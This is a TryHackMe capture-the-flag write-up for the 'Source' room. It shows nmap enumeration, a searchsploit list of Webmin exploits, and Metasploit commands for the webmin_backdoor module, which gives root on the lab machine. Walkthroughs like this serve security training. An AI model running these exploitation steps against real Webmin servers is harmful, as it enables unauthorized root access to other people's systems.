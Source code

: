 ```yaml
---
title: "TryHackMe - Source"
author: Nasrallah
description: ""
date: 2022-09-29 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, rce, webmin]
img_path: /assets/img/tryhackme/source
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Source](https://tryhackme.com/room/source) from [TryHackMe](https://tryhackme.com). The machine is running a vulnerable version of webmin giving us root access to the target.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.102.63
Host is up (0.094s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22(ssh) and 10000(webmin)

### Web

Let's navigate to the web page at port 10000.

![](1.png)

We are advised to use SSL, so let's add https to the url.

![](2.png)

We webmin login page. I tried some default credentials but no luck.

## **Foothold**

Let's check for exploits in webmin using `searchsploit`.

```terminal
$ searchsploit webmin   
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal                                                            | cgi/webapps/23535.txt
phpMyWebmin 1.0 - 'target' Remote File Inclusion                                                                           | php/webapps/2462.txt
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                                                                       | php/webapps/2451.txt
Webmin - Brute Force / Command Execution                                                                                   | multiple/remote/705.pl
webmin 0.91 - Directory Traversal                                                                                          | cgi/remote/21183.txt
Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofing                                                                | linux/remote/22275.pl
Webmin 0.x - 'RPC' Privilege Escalation                                                                                    | linux/remote/21765.pl
Webmin 0.x - Code Input Validation                                                                                         | linux/local/21348.txt
Webmin 1.5 - Brute Force / Command Execution                                                                               | multiple/remote/746.pl
Webmin 1.5 - Web Brute Force (CGI)                                                                                         | multiple/remote/745.pl
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                      | unix/remote/21851.rb
Webmin 1.850 - Multiple Vulnerabilities                                                                                    | cgi/webapps/42989.txt
Webmin 1.900 - Remote Command Execution (Metasploit)                                                                       | cgi/remote/46201.rb
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)                                                     | linux/remote/46984.rb
Webmin 1.920 - Remote Code Execution                                                                                       | linux/webapps/47293.sh
Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)                                                          | linux/remote/47230.rb
Webmin 1.962 - 'Package Updates' Escape Bypass RCE (Metasploit)                                                            | linux/webapps/49318.rb
Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF)                                                                 | linux/webapps/50144.py
Webmin 1.973 - 'save_user.cgi' Cross-Site Request Forgery (CSRF)                                                           | linux/webapps/50126.py
Webmin 1.984 - Remote Code Execution (Authenticated)                                                                       | linux/webapps/50809.py
Webmin 1.996 - Remote Code Execution (RCE) (Authenticated)                                                                 | linux/webapps/50998.py
Webmin 1.x - HTML Email Command Execution                                                                                  | cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                               | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                               | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                              | linux/webapps/47330.rb
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

There are a lot of rce exploits, let's fire up metasploit and see what modules we can use.

```terminal
msf6 > search webmin                                                                                                                                         
                                                                              
Matching Modules                       
================                       
                                       
   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   3  exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   5  auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   6  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor

```

Let's use `exploit/linux/http/webmin_backdoor` module and set the following options:

```bash
use exploit/linux/http/webmin_backdoor

set rhost {target_IP}

set rport 10000

set lhost tun0

set ssl true
```

Now enter `exploit`.

![](3.png)

Great! We got access as root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
